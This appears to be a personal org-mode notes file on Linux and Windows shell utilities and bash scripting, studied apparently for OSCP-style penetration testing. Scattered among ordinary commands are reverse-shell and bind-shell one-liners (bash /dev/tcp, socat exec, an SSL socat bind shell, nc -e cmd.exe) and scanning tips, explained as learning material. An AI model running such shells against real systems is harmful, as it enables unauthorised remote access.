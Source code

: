 ;; -*- mode: org; eval: (company-mode -1); -*-
+ Book1: CISSP_ Certified Information Systems Security Professional Study Guide   (2011, John Wiley & Sons) (788 pages)
+ Book2: GSEC GIAC Security Essentials Certification All-in-One Exam Guide (555 pages)
+ Book3: Offensive Security - Offensive Security OSCP-Offensive Security Ltd (2020) (853 pages)
+ Book4: Internet Core Protocols The Definitive Guide Help for Network Administrators by Eric Hall (424 pages)
+ Book5: Linux Administration  A Beginner’s Guide, Wale Soyinka (2016, McGraw-Hill) (802 pages)
+ Book6: Windows Internals 7ed, Part 1, User Mode, (Win 10 and Win Server 2016) by David Solomon, etc. (805 pages)
+ Book7: Windows Internals 6ed, Part 2, Developer Reference, (Win 7 and Win Server 2008 R2) by David Solomon, etc. (594 pages)
================================================================================
+ CEH v9 gitbook?
  XSS Exploits cgisecurity.com

* Book3_Chapter 02-05 the basics
*** the linux filesystem hierachy standard(FHS)
   + /bin - basic programs (ls, cd, cat, etc.)
   + /sbin - system programs (fdisk, mkfs, sysctl, etc)
   + /etc - configuration files
   + /tmp - temporary files (typically deleted on boot)
   + /usr/bin - applications (apt, ncat, nmap, etc.)
   + /usr/share - application support and data files 

** linux shell utilities
*** the man page sections
   + the sections:
     | Section | Contents                                       |
     |---------+------------------------------------------------|
     | 1       | User Commands                                  |
     | 2       | Programming interfaces for kernel system calls |
     | 3       | Programming interfaces to the C library        |
     | 4       | Special files such as device nodes and drivers |
     | 5       | File formats                                   |
     | 6       | Games and amusements such as screen-savers     |
     | 7       | Miscellaneous                                  |
     | 8       | System administration commands                 |

  + Apart from the normal search, ~man -k keywords~: keyword search
  + ~man 5 passwd~

*** apropos [keyword]
     + searching the keyword in man page description section for possible instances.

*** mkdir -p(parent)
     + mkdir -p test/{recon,exploit,report} 

*** locate
     + sudo updatedb
     + locate sbd.exe

*** find
     + sudo find / -name sbd* 

     + *find vs locate*
       - find search, while locate use index; find is more flexible, while locate is faster.
       #+begin_quote
       The main advantage of find over locate is that it can search for files and directories by more than just the name. With find, we can search by file age, size, owner, file type, timestamp, permissions, and more.
       #+end_quote
       
*** ss -antlp
     + to dump socket statistics.
     + similar to netstat. It can display more TCP and state information than other tools. 

*** systemctl 
     + systemctl list-units
     + systemctl list-sockets
     + systemctl list-timers
     + systemctl list-dependencies
     + *systemctl list-unit-files*

*** env
     + echo $path
     + x=1 && echo $x
       - echo x //x
       - echo "x" //x
     + export x="2"
     + $$ //current shell pid

**** bash string literal
     + x=2
       - echo $((x++))
       - echo $((x + $x + x))

*** history
    + history
    + !number //or !!
    + ctrl+r //backward search
    + ctrl+s //forward search

    + //effected by 3 env params:
      - HISTSIZE //take effect immediately, numbers of commands stored in memory for the current session
      - HISTFILESIZE //numbers of commands to be stored in the .bash_history file
*** //File Descriptor
**** basic of FD
    | FD | pointer |
    |----+---------|
    | 0  | stdin   |
    | 1  | stdout  |
    | 2  | stderr  |

    + A File Descriptor (FD) is a number which refers to an open file.
      #+begin_quote
      Each process has its own private set of FDs, but FDs are inherited by child processes from the parent process.
      Every process should inherit three open FDs from its parent: *0 ("standard input")*, open for reading; and *1 ("standard output")* and *2 ("standard error")*, open for writing. A process that is started without one or more of these may behave unpredictably. (So never close stderr. Always redirect to /dev/null instead.)
      #+end_quote

    + FD 3,4, ..., 9 are for additional files, need to be open first before used. For more info see:
      - [Advanced Bash-Scripting Guide: Chapter 20. I/O Redirection.](https://tldp.org/LDP/abs/html/io-redirection.html)
      - [how do file descriptors work](https://stackoverflow.com/questions/7082001/how-do-file-descriptors-work)

      #+begin_src
      exec 5<> /tmp/foo  #open fd 5, touch foo if not exist.
      echo "1\n2\n 3456789" >&5
      exec 5>&- #close fd 3.
      cat /tmp/foo
      rm /tmp/foo
      #+end_src

**** FD, basic of redirecting
     + ~:> filename~ //truncates file "filename" to zero length, touch if not exist.
     + ~1>> filename~ //redirect and append stdout to file "filename"
     + ~M>N~ 
       - //"M" is a FD, which is defaults to 1 if not explicitly set.
       - // *"N" is a filename*.
       - //File descriptor "M" is redirect to file "N."
     + ~M>&N~
       - //"M" is a FD, which is defaults to 1 if not explicitly set.
       - // *"N" is a FD*.
       - //"M" is redirected to "N". All output of file pointed to by M gets sent to file pointed to by N.

     + 0<filename, <filename //accept input from a file "filename"
       - cat 0<filename, cat <filename //are semantically equivalent

     + ls ./nonExisting 2>error.txt
     + ls ./nonExisting 2>&1
     + wc -mwl < filename

**** advanced: the mechanisms && stdin, stdout, stderr redirecting.
     + ~bash -i >& /dev/tcp/192.168.140.1/1337 0>&1~ //the meaning.

***** the ~>&~ || ~&>~ //(if FD number is omitted):
      1. *syntax for redirecting stderr*, the 3 variants are semantically equivalent:
         - ~>& dst~
         - ~&> dst~
         - ~> dst 2>&1~ //most human readable
           #+begin_src
           strace -f bash -c 'ls a &> out' 2>&1 | grep -n dup2
           # open, 3(out) => 1(stdout)>3, (dup2(3, 1)) => 2(stderr)>1, (dup2(1, 2))
           strace -f bash -c 'ls a > out' 2>&1 | grep -n dup2
           # open, 3(out) => 1(stdout)>3, (dup2(3, 1))
           #+end_src

      2. *omitting FDs*, if:
         - ~<~ is the first character of the redirection operator: the redirection refers to FD 0(stdin) *dup2(3, 0)* //i.e. 0<fileIn
         - ~>~ is the first character of the redirection operator: the redirection refers to FD 1(stdout) *dup2(3, 1)* //i.e. 1>fileOut

***** the redirect operator: *associativity: l => r; the > operator only pass the pointer address of the FD*
      + ~ls > outFile 2>&1~ //direct both FD 2(stderr) and FD 1(stdout) to the outFile
      + ~ls 2>&1 > outFile~ //direct only FD 1(stdout) to the outFile, because the FD 2(stderr) was dumped to the FD 1 before the FD 1 goes to the outFile
      + ~strace -f bash -c 'ls 2>&1 > outFile' > ls.out 2>&1~ //dup2(oldFD, newFD)
        #+begin_src
        dup2(1, 2)         # pointer address 2 === 1
        # outFile -> 3
        dup2(3, 1)         # pointer address 1 === 3, hence stderr not included
        #+end_src
      + ~strace -f bash -c 'ls > outFile 2>&1' > lsall.out 2>&1~ //dup2(oldFD, newFD)
        #+begin_src
        # outFile -> 3
        dup2(3, 1)         # pointer address 1 === 3
        close(3)
        dup2(1, 2)         # pointer address 2 === 1, stderr included
        #+end_src

***** use the ~strace~:
      + ~strace -f bash -c 'bash -i >& /dev/tcp/192.168.140.1/1337 0>&1' > strace.out 2>&1~ //grep -n 192.168.140.1 strace.out, check syscalls around the line
        - //1(stdout)>3(socket) => 0(stdin)>1(stdout, socket)
        - //since the socket is bidirectional, both read and write are legal.

*** apt(Advanced Package Tool)
    + apt update: update the db info
    + apt upgrade [<packageName>]
    + apt-cache search <keyword>: search in the cached package *description* for the keyword
    + apt show <packageName>
    + apt install
    + apt remove --purge

*** dpkg
    + ~dpkg -i <package.deb>~
    + ~dpkg -l [packageName]~ //with or without packageName
    + dpkg can call apt or use offline package
     
*** grep
    + ~grep [option] <regex> <file>~
      - //without group capturing
    + ~grep -n(--line-number) <keyword> <fileName>~ //show the line number
    + ~grep -ri <keyword> <directory>~
      - //read all files under each directory recursively, search for what matches the "keyword"
    + // some options:
      - i for --ignore-case 
      - v for --reverse(not contain pattern)
      - o for print --only-matching
        
**** bash regex group capturing (planB only. if group capturing is necessary, better use python)
     + [[https://stackoverflow.com/questions/1891797/capturing-groups-from-a-grep-regex][bash regex group capturing]]
     #+begin_src bash
files="*.jpg"
regex="[0-9]+_([a-z]+)_[0-9a-z]*"
for f in $files    # unquoted in order to allow the glob to expand
do
    if [[ $f =~ $regex ]]     # bash regex matcher
    then
        name="${BASH_REMATCH[1]}"
        echo "${name}.jpg"    # concatenate strings
        name="${name}.jpg"    # same thing stored in a variable
    else
        echo "$f doesn't match" >&2 # this could get noisy if there are a lot of non-matching files
    fi
done
     #+end_src

*** <<< (here string)
    + [Here Strings](https://tldp.org/LDP/abs/html/x17837.html)
    + [what does <<< mean](https://unix.stackexchange.com/questions/80362/what-does-mean)

    + read first second <<< "hello world"
    + cat <<< "string"
    + //the tricky part is, it pass the rhs as a string, as the "stdin" of the lhs function. But not all function work with "/dev/stdin".
    + xargs kill <<< "-1 $$" //because xargs works with "stdin"
      
*** << Here Documents (heredoc)
    + the heredoc feed a codeblock to the stdin of the <TGTCOMMAND>. (similar to <TGTCOMMAND> < command-file, where the command-file contains the content of the codeblock)

      - syntax
        #+begin_src bash
        <TGTCOMMAND> <<LimitString
        <command #1>                      # line1 of the codeblock
        <command #2>                      # line2 of the codeblock
        LimitString
        #+end_src
      - example
        #+begin_src bash
        cat <<MEOW
        The current working directory is: $PWD  # comment?
        You are logged in as: $(whoami)
        MEOW
        #+end_src

*** sed
    + ~sed -i.bak -e 's/sed/script/gi' fileName~ //edit --in-place, with backup fileName.bak, and --expression
    + ~echo 'sed in a shell' | sed 's/shell/subshell/g'~ //the last part is *regex flag*
      #+begin_quote
      If no ~-e script~, ~--expression=script~, ~-f script-file~, or ~--file=script-file~ option is given, then the first non-option argument is taken as the sed script to interpret. *All remaining arguments are names of input files; if no input files are specified, then the standard input is read.*
      #+end_quote

*** cut 
    + ~echo "one two, three" | cut -f 2 -d ','~ //-f for field number[ -ge 1 ], -d for the delimiter instead of the default TAB, [ $delimiter.length -eq 1 ]

*** awk
    + ~echo "one::two::three" | awk -F "::" '{print $1, $3}'~ //F to set the field separator
    + should multiple cut are involved, consider switching to awk
    + BEGIN and END block
      #+begin_src bash
awk '
BEGIN { print "Analysis of \"li\"" }
/<regex>/  { ++n }
END   { print "\"<regex>\" appears in", n, "records." }' mail-list
      #+end_src

*** head
    + ~head -vn linesNumber file~ //if no file presented, read stdin

*** sort
    + ~sort -urn~ //unique, reverse, numeric order.
    + ~ps -ef | sort [-t [delimiter]] -k 1d,1 -k 2n,2~ // d for dictionary-order(effected by LC_ALL), n for numeric, [delimiter] could be ":" "\t" "<tab>", etc.; *must specify an end position in multiple key scenario, otherwise an option will effect the whole line*.
      #+begin_quote
      KEYDEF is F[.C][OPTS][,F[.C][OPTS]] for start and stop position, where F is a field number and C a character position in the field; both are origin 1, and the stop position defaults to the line's end.  If neither -t nor -b is in effect, characters in a field are counted from the beginning of the preceding whitespace. OPTS is one or more single-letter ordering options [bdfgiMhnRrV], which override  global  ordering  options for that key. If no key is given, use the entire line as the key. Use --debug to diagnose incorrect key usage.
      #+end_quote

*** uniq
    + ~uniq -c~ //count the number of occurrences
    + //use this after sort, since ~uniq~ only eliminate identical neighbour strings

*** comm
    + ~comm -[123] fileA fileB~ //output three columns: UniqueOfFileA UniqueOfFileB CommonOfFileAB, use -[123] to specify the column to suppress. 

*** diff
    + ~diff -c fileA fileB~ //context, in separate context
    + ~diff -u fileA fileB~ //unified format, all in one.

*** vimdiff
    + ~vimdiff fileA fileB~
      - ~do~ //diffget (o for obtain): get from the other file
      - ~dp~ //diffput: put change to the other file
      - ~]c~ //jump to the next diff
      - ~[c~ //jump to the previous diff
      - ~C-w~ //change window
    + ~:h [vimCommands]~

*** process management
    + job(linux) vs. process: ~cat error.log | wc -m~ is a pipeline of two processes, which the shell consider as a single job.

*** background tasks
    + ~ping localhost &~
    + ~ping localhost~ ~C-z~ //suspend
    + ~bg~ or ~%1 &~ //resume the suspended task at background
    + ~fg~ or ~%1~ //resume the task at foreground
    + ~%~
      - ~%Number(a job-identifier)~ //a job spec(ification), for more info check man bash.
      - ~%String~ //%ping, strings that the command job begins with.
      - ~%+~ ~%%~ //current job
      - ~%-~ //previous job
*** process control
    + ~ps aux~
    + ~ps -ef~ //every, full-format listing
    + ~ps -t 0 -f~ //0 for tty0, - for no tty
    + ~ps -ef f~ //output modifier f as --forest, ASCII art forest tree
    + ~ps -fC [commandNameLessThan15Chars]~

*** kill
    + ~kill -L~ //list kill-signal names in a nice table 
    + ~kill -l 11~ //translate number 11 into a signal name
    + ~kill -9 -1~ //send SIGKILL to almost every processes, since a PID of -1 is special, it indicates all processes except the kill process itself and init.
    + ~kill [pid|jobSpec]~ //send default signal: SIGTERM, to the process|job.

*** tail
    + ~tail -f logFile.log~ //follow the update.
    + ~tail -n[LinesToDisplay]~ //default 10 lines if not specified
  
*** watch
    + ~watch -n 5 w~ //watch the w command(who is logged on and what they are doing) with interval of 5 seconds (default 2 seconds)
    + ~watch -n 1 'ps -ef | sort -k 4nr,4 | head -n 5'~ //watch at 1 second interval for the top 5 processes that has the highest cpu usage, among all processes.

*** wget: downloads files using the HTTP/HTTPS and FTP protocols.
    + ~wget -O report_wget.pdf https://www.offensive-security.com/reports/penetr ation-testing-sample-report-2013.pdf~ // -O as --output-document

*** curl
    + ~curl -o report.pdf https://www.offensive-security.com/reports/penetration -testing-sample-report-2013.pdf~ 

*** axel: FTP/HTTP/HTTPS download accelerator, use multiple connections
    + src:
    #+begin_src sh
axel -a -n 20 -o o.pdf https://example.com/o.pdf
  # -a for alternate progress indicator
  # -n for number of connections
    #+end_src

*** bash ENV variables: see ~man bash~
    + ~HISTCONTROL=ignoredups~

*** netcat //has several versions: nmap-ncat, nc
    + //the original version, ~nc -h ==> [v1.10-46]~
    + ~nc -[u]nlvp 1337 --allow 192.168.140.0/24~ //[u]dp, verbose, nodns, listening, port, allow access from a local network only.
    + ~nc -[u]nv 127.0.0.1 1337~
    + ~nc -znv[u] [ip] 1-100~ //(stealth)scan for listening daemons without sending any data to them. 
    + ~nc -nlvp 1337 > fileReceived~
    + ~nc -nv 127.0.0.1 1337 < fileToSend~
    + ~nc -nlvp 1337 < fileAvailable~
    + ~nc -nv 127.0.0.1 1337 > fileDownloaded~
    + //the nmap maintained version, ~ncat -h ==> [Ncat 7.91 (...nmap.org/ncat)]~: ipv6 support, ssl, etc.
    + ~nc -e cmd.exe --allow [ip] -vnlp 1337 --ssl~ //ssl
    + ~nc -vn [ip] 1337 --ssl~ //the nmap ver. ncat ssl connection
    TODO TCP handshaking and attack vector.(SYN -> SYN/ACK -> ACK)

**** TODO stealth scan (gsec stealth port scanning methods 1985)
    TODO how nc stealth scan work. (wireshark) (it is definitely not stealth: it break nc listening process.)
    + Inverse Mapping
    + Half Open Scan //scanner SYN, target SYN/ACK, scanner RST
    + FIN Scan //FIN on, closed port send RST, open port ignore the packet
    + Xmas Tree Scan //FIN URG PSH on, or all flags on? same as FIN
    + Null Scan //all flags off, same as FIN
    + //FIN, Xmas, Null scan does not work on Windows family/Cisco, HP/UX, IRIX, since they use somewhat different implementation which deviate from the standard.

*** ip
    + ~ip l(ink) show [device]~
    + ~ip a(ddress) show [device]~
    + ~ip r(oute) show~
    + ~ip link set device { up | down | arp { on | off } }~

**** ~ip neigh~ //RFC 4861, neighbor discovery && ipv6 slaac
    - *NS(neighbor solicitation)*: msg.dst === *solicited-node multicast address*
    - *NA(neighbor advertisement)*: the neighbor response with lladdr
    - *RS(router solicitation)*: msg.src === self generated link-local; msg.dst === ff02::2( *all router multicast address* )
    - *RA(router advertisement)*: msg.src === fe80::x(router link-local); msg.dst === ipv6 unicast address of the requester || ff02::1 ( *all nodes multicast address* )

***** *ipv6 slaac* (IPv6 Stateless Address Autoconfiguration)
      1. the device calculate a EUI-64 or random link-local address for itself, say *addrD*
      2. the device perform Duplicate Address Detection(DAD) by sending a *NS* message, in which, src = ::/128(unspecified address), dst = $addrD
      3. confirming no conflict, the device send a *RS* message, in which, src = $addrD, dst = ff02::2
      4. in response, the ipv6 router unicast an *RA* message, in which, src = fe80::x(router link-local), dst = $addrD; the message also contains ipv6 prefix, with which the device configure its *Global Unicast Address* (since the prefix and link-local is always 64 bits long); the message also contains other info such as MTU.

*** socat
    + ~socat [-u|U] TCP-LISTEN:127.0.0.1:1337,fork path/to/file~ //uni-directional mode: U for right to left, u for left to right. Be careful not to override the source file.
    + ~socat tcp-connect:127.0.0.1:1337 exec:/bin/sh,stderr,pty[,setsid,sigint,sane]~ //reverse shell
    + @Deprecated //misc methods:
      - ~socat -d -d TCP4-LISTEN:443 STDOUT~ //...but why bother
      - ~socat TCP4:127.0.0.1:443 EXEC:/bin/bash~ //...use the parameterizes
      
*** openssl
    + ~openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 365 -out bind_shell.crt~
      - ~cat bind_shell.key bind_shell.crt > bind_shell.pem~
      - ~sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash,stderr,pty,setsid,sigint,sane~ //bind_shell, can be connected with nc --ssl option

*** base64 encoding decoding
    + ~echo -n 'cat' | base64 -w 0~ //echo without trailing \n, base64 encoding without auto wrapping
    + ~echo -n 'Y2F0' | base64 -d~ //decode, -i ignore garbage for more tolerance

*** TODO system call tracing, libcall tracing // man syscall
    + ~strace~
      - ~strace -f bash -c 'bash -i >& /dev/tcp/192.168.140.1/1337 0>&1' > strace.out 2>&1~ // -f: trace child processes created, as a result of the fork(2), vfork(2), and clone(2) system calls (quote: man strace). grep -n 192.168.140.1 strace.out, check syscalls around the line
    + ~ltrace -f ls~ // -f: same with strace -f.

*** cat file to variable
    #+begin_src
    var = $( cat v.txt )
    #+end_src


** bash scripting
   + man bash
   + ~#!~ //the "shebang"
   + debug view: ~#!/bin/bash -x~

*** basic syntax
**** *EXPANSIONs*: (man bash::"expansion") 7(8?) kinds of expansions. including dollar sign, with or without single/double parenthesis
     #+begin_quote
       The order of expansions is: brace expansion; tilde expansion, parameter and variable expansion, arithmetic expansion, and command substitution (done in a left-to-right fashion); word splitting; and pathname expansion.
       On systems that can support it, there is an additional expansion available: process substitution. This is performed at the same time as tilde, parameter, variable, and arithmetic expansion and command substitution.
       After  these  expansions  are performed, quote characters present in the original word are removed unless they have been quoted themselves (quote removal).
       Only brace expansion, word splitting, and pathname expansion can increase the number of words  of  the  expansion; other expansions expand a single word to a single word. The only exceptions to this are the expansions of "$@" and "${name[@]}", and, in most cases, $* and ${name[*]} as explained above (see PARAMETERS).
     #+end_quote

***** (misc) double quotes, single quotes, dollar sign
    + // *the dollar sign is evaluated within double quotes, but not within single quotes*
      #+begin_src
      x=1; echo $x        # variables. Note: no space 
      echo "1 + $x"       # '1 + 1'.
      echo '1 + $x'       # '1 + $x'
      y2=1+$x             # "1+1"
      #+end_src

***** 1. brace expansion
         + ~echo a{b,c}e~ # abe ace
           #+begin_src bash
           ls /usr/{ucb/{ex,edit},lib/{ex?.?*,how_ex}}
           #+end_src
         + ~{x..y[..incr]}~ # x, y, incr are ints
           #+begin_src bash
           tCount=0
           for t in {1,{10..60..10}}; do
             echo "t=$t tCount=$tCount"
             (( tCount++ ))
           done 
           #+end_src

***** 2. tilde expansion
         + # the home directory of a login name:
           #+begin_src bash
           ls ~someLoginName
           #+end_src
           
***** 3. parameter (and variable) expansion 
      + # The `$' character introduces *parameter expansion*, command substitution, or arithmetic expansion.
          #+begin_src bash
          a=; b=1;
          echo ${a:-$b}             # 1   # a is null, use default value $b.
          echo ${a:=$b}             # 1   # a is null, assign a default value $b to a. Now a === $b.
          a=; echo ${a:?'err'}      # err # a is null | unset, output errMsg to stderr
          a=2; echo ${a:+$b}        # 1   # nothing happens if a is null | unset, else, output $b
          
          a='abcde'; arr=($(seq 1 10));
          echo ${a: -1}              # 'cde' # ${param:offset}, note the space if [offset -lt 0]
          echo ${a:2:2}              # 'cd'  # ${param:offset:length}
          echo ${arr[@]: -2}         # 9 10
          echo ${!arr[@]}            # 0..9  # print array keys
          echo ${#a}                 # 5     # print
          
          # ... a few more syntax with patterns are not included. see man bash::"parameter expansion"
          #+end_src

***** 4. command substitution: ~$(command)~ or ~`command`~
      #+begin_quote
        Bash performs the expansion by executing command in a subshell environment and replacing the  command  substitution  with  the  standard  output of the command, with any trailing newlines deleted.
      #+end_quote
        
***** 5. arithmetic expansion: ~$((expression))~: eval the arithmetic expression and substitute the result.
         - ~echo $(((1+1)**(1+2)))~     # 8
         - ~echo $(((1+1) % (1+2)))~    # 2
          
***** 6. process substitution: ~<(list) or >(list)~
      #+begin_quote
        Process substitution allows a process's input or output to be referred to using a filename. It takes the form of <(list) or >(list). *The process list is run asynchronously*, and its input or output appears as  a filename. This filename is passed as an argument to the current command as the result of the expansion. If the >(list) form is used, writing to the file will provide input for list. If the <(list) form is used, the file passed as an argument should be read to obtain the output of list. Process substitution is supported on systems that support named pipes (FIFOs) or the /dev/fd method of naming open files. When available, process substitution is performed simultaneously with parameter and variable expansion, command substitution, and arithmetic expansion.
      #+end_quote
      
***** ? 7. word splitting: *IFS*

***** 8. pathname expansion: man bash::"pattern matching"
      
***** # conclusion:
     + ~$(command)~: *command substitution*. execute the command in a subshell then substitute the expression with the stdout of the subshell.
       - ~user=$(whoami)~
     + ~(command)~: fork and execute the commands in a subshell, shared FDs with the parent shell. see *compound commands*
       - ~a=1;(a=2; echo $a); echo $a~       # 2\n1
     + ~$((expression))~: *arithmetic expansion*. substitute the expression with the result of the calculation.
       - ~a=$((1+1)); echo $a~               # 2
     + ~((expression))~ *math context*. see *compound commands*.
       - ~((a=1+1)); echo $a~                # 2
     + ~${...}~ *parameter (and variable) expansion*
       - ~echo ${a}, ${SHELL}~               # 2, /bin/bash
     + ~{ commands; }~: *group command*. execute the commands in the braces as a group in the current execution context.
         #+begin_src bash
         a=5; echo '5cContent' > 5c
         cat ${a}c                              # 5cContent
         #+end_src
     + other related:
       - ~a="ls"; $a -la;~                             # ls -la

**** *compound commands* (man bash::"compound commands")
***** ~(commands)~: *fork* and execute the commands in a *subshell*, shared FDs with the parent shell.
     + [[https://unix.stackexchange.com/questions/138463/do-parentheses-really-put-the-command-in-a-subshell][StackExchange::do parentheses really put the command in a subshell]]
       #+begin_quote
         A subshell starts out as an almost identical copy of the original shell process. Under the hood, the shell calls the *fork* system call, which creates a new process whose code and memory are copies. When the subshell is created, there are very few differences between it and its parent. In particular, they have the same variables. Even the $$ special variable keeps the same value in subshells: it's the original shell's process ID. Similarly $PPID is the PID of the parent of the original shell.
         *A subshell created by (…) has the same file descriptors as its creator*. *Some other means of creating subshells modify some file descriptors before executing user code*; for example, the left-hand side of a pipe runs in a subshell3 with standard output connected to the pipe. The subshell also starts out with the same current directory, the same signal mask, etc. ...
       #+end_quote
     
***** ~((expression))~: *math context*.
      #+begin_quote
        The expression is evaluated according to the rules described below under ARITHMETIC EVALUATION.  If the value of the expression is non-zero, the return status is 0; otherwise the return status is 1.  This is exactly equivalent to ~let "expression"~.
      #+end_quote
      #+begin_src bash
      let a=17+23; echo $a
      let a="17 + 23"; echo $a
      
      # (()) works identical to ~let~
      ((a += 7))
      if ((a > 5)); then echo 'a > 5'; fi
      (( 1 + 1 == 2 ? 1 : $(echo 'hi' >& 2; echo 1)))   # hi
      $(( 1 + 1 == 2 ? 1 : $(echo 'hi' >& 2; echo 1)))  # hi 1
      #+end_src
      
***** ~{ commands; }~: a *group command*. executed in the current shell environment
      #+begin_quote
        (the commands are simply) executed in the current shell environment. list must be terminated with a newline or semicolon. This is known as a group command. The return status is the exit status of list. ...
      #+end_quote

***** ? loop
      #+begin_src bash
      for i in {1,{10..60..10}}; do echo 10.11.1.$i; done         # note that no spaces between braces
      
      counter=1
      while [ $counter -lt 10 ]
      do
      echo "10.11.1.$counter"; ((counter++))
      done
      #+end_src
      + ~for name [ [ in [ word ... ] ] ; ] do list ; done~
      + ~for (( expr1 ; expr2 ; expr3 )) ; do list ; done~
      + ~select name [ in word ] ; do list ; done~

*** bash array (man bash::"Arrays")
     + ~arr=($(seq 1 10)); echo ${arr[2]}~             # 3
       
*** bash arguments
    | Sign      | Description                                                          |
    |-----------+----------------------------------------------------------------------|
    | $0        | argv[0]                                                              |
    | $1-$9     | argv[1]-argv[9]                                                      |
    | $#        | argc                                                                 |
    | $@        | argv                                                                 |
    | $?        | The exit status of the most recently run process                     |
    | $$        | The process ID of the current script                                 |
    | $USER     | The username of the user running the script                          |
    | $HOSTNAME | The hostname of the machine                                          |
    | $RANDOM   | A random number                                                      |
    | $LINENO   | The current line number in the script. (man bash::"Shell Variables") |
    | $-        | The current *set of options* of the shell. (man bash)                |

*** ? ~read~ //userInput
    + ~read -p~
        #+begin_src bash
        #!/bin/bash
        echo "y/N?"
        read answer
        echo "answer: $answer" 
        read -p 'id: ' id
        read -sp 'pw: ' pw;
        printf "\n\nid: $id, pw: $pw"
        #+end_src

*** if //conditioning
    #+begin_src
    if [ <some test> ] && [ <some test> ]
    then
      <actions>
    elif [ <some test> ] || [ <some test> ]
    then
      <actions>
    else
      <actions>
    fi
    #+end_src

*** test operators
    | Operator              | Description: Expression True if...     |
    |-----------------------+----------------------------------------|
    | !EXPRESSION           |                                        |
    | -n STRING             | STRING length is greater than zero     |
    | -z STRING             | The length of STRING is zero (empty)   |
    | STRING1 != STRING2    |                                        |
    | STRING1 = STRING2     |                                        |
    | INTEGER1 -eq INTEGER2 |                                        |
    | INTEGER1 -ne INTEGER2 |                                        |
    | INTEGER1 -gt INTEGER2 |                                        |
    | INTEGER1 -lt INTEGER2 |                                        |
    | INTEGER1 -ge INTEGER2 |                                        |
    | INTEGER1 -le INTEGER2 |                                        |
    | -d FILE               | FILE exists and is a directory         |
    | -e FILE               | FILE exists                            |
    | -r FILE               | FILE exists and has read permission    |
    | -s FILE               | FILE exists and it is not empty        |
    | -w FILE               | FILE exists and has write permission   |
    | -x FILE               | FILE exists and has execute permission |
    
*** bitwise
    #+begin_src bash
    printf '%X\n' "$(( 0x12345678 | 0xDEADBEEF ))"     # Bitwise OR
    printf '%X\n' "$(( 0x12345678 & 0xDEADBEEF ))"     # Bitwise AND
    printf '%X\n' "$(( 0x12345678 ^ 0xDEADBEEF ))"     # Bitwise XOR
    printf '%X\n' "$(( ~ 0x2C8B ))"                    # Bitwise NOT
    #+end_src
    
    





** cmd scripting
*** basic
    #+begin_src bat
    @echo off
    echo hi
    pause

    goto end
    echo 'skipped'
    :end

    @echo off 
    #+end_src

**** ~set~ //variables
     #+begin_src bat
     REM set                                  //list all existing env variables
     REM set [<variable>=[<string>]]
     REM set [/p] <variable>=[<promptString>]
     REM set /a <variable>=<expression>
    
     SETLOCAL
     SET /A a = 5  # natural
     SET /A b = 10 
     SET /A c = %a% + %b% 
     echo %c%
     ENDLOCAL
     #+end_src

**** ~for~ // no, use powershell
     + ~FOR /F "tokens=1-5" %%A IN ("This is a short sentence") DO @echo %%A %%B %%D~
     + ~FOR %%G IN (a,b,c) DO (md %%G)~ // mkdir a,b,c
     + //%% vs %, expect %% in .bat script file, expect % in a cmd prompt.

*** cat to variable
    + ~powershell -c "$v=cat file; $v"~


** cmd utilities
   + ~pathping -n ip~ //route tracing utility.
   + ~tracert ip~ //route tracing utility, less info than pathping.
   + ~netstat -an~ //display all connections and listening ports, in numerical form.
   + ~systeminfo~
   + ~tasklist /svc~ // display services hosted in each process; /v for verbose
   + ~taskkill /pid 1 /pid 2 /T~ //terminate all specified processes and their child processes; /F for forcefully end.
   + ~driverquery -v~
   + ~assoc~ //e.g. assoc .txt
   + ~ipconfig~ // /flushdns, /rebase, /renew
   + ~powercfg~ // /A list all available sleep states; /hibernate on | off; /energy 
   + ~shutdown~ // /h for hiberanate; /r /o restart to advanced start-up 
   + ~sfc /SCANNOW~ //Windows Resource Checker


** TODO powershell scripting
   + ~(Get-Host).version~
   + ~Get-Help(help)~
   + ~Set-ExecutionPolicy Unrestricted~
   + ~Get-ExecutionPolicy~
   + #!/bin/bash ~powershell -c ""~ //powershell parse syntax like $var within the parentheses while bash does not
   + ~echo ([System.Text.Encoding]::Default)~ //get system default text encoding
   + //the *square brackets*. No reference. But seems [.Net TypeName]::staticMethod is legal in powershell.

*** TODO breakpoint?

*** Base64 encoding in powershell
   + base 64 encoding
     #+begin_quote
     $txt = "こんにちは"
     $byte = ([System.Text.Encoding]::Default).GetBytes($txt)
